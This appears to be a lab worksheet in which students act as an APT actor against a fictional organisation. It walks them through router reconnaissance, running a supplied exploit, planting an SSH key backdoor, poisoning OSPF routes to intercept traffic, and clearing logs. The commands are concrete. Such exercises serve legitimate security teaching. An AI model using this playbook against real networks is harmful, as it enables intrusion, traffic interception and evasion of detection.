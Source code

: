 # The Indirect Intercept

Objective: Act as an APT actor (`APT-47`) to compromise a network router, manipulate routing to redirect traffic, and intercept unencrypted sensitive data. Document your findings at each step.

Scenario: [OpenHands International](entity.md) uses a dynamic routing protocol to connect its HQ and remote offices. Your goal is to perform a Machine-in-the-Middle (MitM) attack by hijacking this traffic flow.

## Phase 1: Reconnaissance & Mapping

Goal: Discover the network topology and identify key targets.

Instructions:

1.  Access Your Foothold:
    *   SSH into your assigned low-privilege user account on the workstation VM.
    *   Command: `ssh volunteer@<workstation_ip>`
    *   Password: `[Provided by Lab Instructor]`

2.  Map the Local Network:
    *   Find your own IP address and the default gateway.
    *   Command: `ip addr show` and `ip route show default`
    *   Your IP: `[DISCOVER THIS]`
    *   Default Gateway: `[DISCOVER THIS]` - This is your first key target. Note it as `TARGET_ROUTER`.

3.  Discover Live Hosts:
    *   Perform a stealthy ping sweep of your local subnet to find other devices.
    *   Command: `nmap -sn -T4 <your_subnet>/24` (e.g., if your IP is `192.168.1.10`, the subnet is `192.168.1.0/24`)
    *   Finding: List 3 active IP addresses you discover, excluding yourself and the gateway.

4.  Probe for Services:
    *   Perform a port scan on the `TARGET_ROUTER` to identify running services. Focus on finding the routing protocol port.
    *   Command: `nmap -sS -p- -T4 <TARGET_ROUTER_IP>`
    *   Critical Finding: What port is open that is commonly associated with a routing protocol? (e.g., `2601/tcp`, `2604/tcp`, `179/tcp`).
    *   Service: `[DISCOVER THIS]`

5.  Confirm Routing Protocol:
    *   Use a packet sniffer to listen for multicast packets that reveal the routing protocol in use.
    *   Command: `sudo tcpdump -i any -n host 224.0.0.5 or host 224.0.0.6 -c 5`
    *   Finding: What is the name of the routing protocol you observed? (e.g., OSPF, EIGRP).
    *   Protocol: `[DISCOVER THIS]`

Checkpoint: You have now identified the local router and the dynamic routing protocol it uses. Proceed to the next phase.

## Phase 2: Gaining Control of the Router

Goal: Exploit a vulnerability on the router to gain privileged access.

Instructions:

1.  Research the Target:
    *   From your workstation, try to identify the make and model of the `TARGET_ROUTER`.
    *   Command: `nmap -sV -p <routing_port> <TARGET_ROUTER_IP>`
    *   Finding: What software and version is running the routing service? (e.g., `FRRouting 8.1`, `Bird 2.0.7`).
    *   Version: `[DISCOVER THIS]`

2.  Locate the Exploit:
    *   Your lab instructor has provided a directory of proof-of-concept (PoC) exploits. Navigate to it.
    *   Command: `cd /opt/pocs/`
    *   Find the exploit script that matches the software version you discovered.
    *   Exploit Script: `[DISCOVER THIS]` (e.g., `router_rce_cve_2023_xxxx.py`)

3.  Execute the Exploit:
    *   Run the exploit script against the `TARGET_ROUTER` to gain a remote shell.
    *   Command: `python3 <exploit_script_name.py> <TARGET_ROUTER_IP>`
    *   Success: Your terminal should now show a command prompt for the router (e.g., `vyos@router:~$`).

4.  Secure Your Access (Persistence):
    *   You have a shell, but it might be unstable. Establish reliable backdoor access via SSH.
    *   Action: Append your public SSH key to the router's `authorized_keys` file.
    *   Command: `echo "ssh-rsa AAAAB3NzaC1yc2E... student@workstation" >> /home/vyos/.ssh/authorized_keys`
    *   Verify: Exit the shell and SSH back into the router directly using your key.
    *   Command: `ssh vyos@<TARGET_ROUTER_IP>`

Checkpoint: You now have persistent, privileged access to the network router. You are now in control of a critical network device.

## Phase 3: Traffic Redirection via Route Manipulation

Goal: Abuse your control of the router to redirect traffic for interception.

Instructions:

1.  Analyze the Current Routing Topology:
    *   On the compromised router, view the routing table and the routing protocol's database.
    *   Commands: `show ip route` and `show ip ospf database` (or equivalent for the protocol you found).
    *   Finding: What is the network prefix of the REMOTE_OFFICE subnet? (e.g., `192.168.5.0/24`).
    *   REMOTE_NET: `[DISCOVER THIS]`

2.  Identify the Path:
    *   Note the current path and cost (metric) for the route to `REMOTE_NET`.

3.  Advertise a Fraudulent Route:
    *   Configure the router to advertise a fake, more attractive route to the `REMOTE_NET`.
    *   This requires entering configuration mode on your router platform.
*   Example Commands (VyOS/FRR):

```bash
configure terminal
router ospf
redistribute static metric-type 1 metric 10
exit
ip route <REMOTE_NET> <null_interface_or_fake_next_hop> # This creates a static route that will be redistributed
commit
save
exit
```

  *   This tells other routers: "Send all traffic for `REMOTE_NET` to me, and I can get there with a fantastic metric of 10."

4.  Verify the Attack Worked:
    *   Wait 60 seconds for the routing protocol to converge.
    *   From your original workstation, trace the route to a host in the `REMOTE_NET`.
    *   Command: `traceroute <IP_ADDRESS_IN_REMOTE_NET>`
    *   Finding: Is the first hop your `TARGET_ROUTER`? (It should be).
    *   Result: `[YES/NO]`

Checkpoint: You have successfully poisoned the routing table. All traffic from your segment to the remote office now flows through your compromised router.

## Phase 4: Interception and Exfiltration

Goal: Capture unencrypted traffic containing simulated sensitive data.

Instructions:

1.  Sniff the Redirected Traffic:
    *   On the compromised router, start a packet capture on the interface facing the HQ LAN.
    *   Command: `sudo tcpdump -i eth0 -w captured_traffic.pcap host <IP_ADDRESS_IN_REMOTE_NET>`
    *   Let this run for 5 minutes to capture traffic.

2.  Trigger Data Generation (Optional):
    *   Inform your lab instructor. They may run a script that generates simulated unencrypted HTTP traffic containing "sensitive" dummy data (e.g., volunteer records) from HQ to the remote office.

3.  Analyze the Capture:
    *   Transfer the `.pcap` file to your workstation for analysis with Wireshark.
    *   Command (from your workstation): `scp vyos@<TARGET_ROUTER_IP>:captured_traffic.pcap .`
    *   Open the file in Wireshark: `wireshark captured_traffic.pcap`
    *   Finding: Apply a filter for `http`. Can you find any HTTP POST requests? If so, examine the packet details to find the simulated exfiltrated data.
    *   Exfiltrated Data: `[COPY THE DUMMY DATA STRING YOU FIND]`

Checkpoint: You have successfully intercepted and exfiltrated sensitive data by manipulating network infrastructure.

## Phase 5: Covering Tracks (Optional Bonus)

Goal: Remove evidence of your presence on the router.

Instructions:

1.  Remove the Fraudulent Route: Log back into the router and remove the static redistribution configuration.
2.  Remove Persistence: Delete your public key from the `authorized_keys` file.
3.  Clear Logs: Find the router's log file (e.g., `/var/log/messages`) and remove any entries containing your workstation's IP address. Note: This is often difficult to do completely on network devices.

Final Report: Document all the `[DISCOVER THIS]` fields and write a short paragraph explaining the impact of this attack on a real organisation like OpenHands International.
